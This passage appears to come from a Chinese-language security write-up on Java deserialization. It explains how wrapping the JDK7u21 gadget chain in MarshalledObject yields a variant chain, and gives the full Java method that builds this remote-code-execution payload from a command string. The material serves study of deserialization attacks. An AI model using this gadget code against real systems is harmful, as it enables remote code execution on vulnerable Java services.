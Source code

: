 而 objBytes 通过 `MarshalledObject` 的构造方法接收一个对象并存储，那么其实这条 gadget 的思路就很简单了，用 `MarshalledObject` 套一层 JDK7u21 ，后半部分的链子和 JDK7u21保持一致就可以了。

![image-20230802111255236](attachments/image-20230802111255236.png)

所以最后构造出来 JDK7u21variant 如下：

```java
@Override
public Object getObject(String command) throws Exception {
   Object obj = new Jdk7u21().getObject(command);

   String zeroHashCodeStr = "f5a5a608";

   HashMap map = new HashMap();
   map.put(zeroHashCodeStr, "foo");

   InvocationHandler tempHandler = (InvocationHandler) Reflections.getFirstCtor(Gadgets.ANN_INV_HANDLER_CLASS).newInstance(Override.class, map);
   Templates proxy = Gadgets.createProxy(tempHandler, Templates.class);

   MarshalledObject marshalledObject = new MarshalledObject(obj);
   Reflections.setFieldValue(tempHandler, "type", MarshalledObject.class);

   LinkedHashSet set = new LinkedHashSet(); // maintain order
   set.add(marshalledObject);
   set.add(proxy);
   map.put(zeroHashCodeStr, marshalledObject); // swap in real object
   return set;
}
```

**参考**

> Java安全漫谈 - 18.原生反序列化利用链JDK7u21
>
> https://xz.aliyun.com/t/7236
>
> https://forum.butian.net/share/125

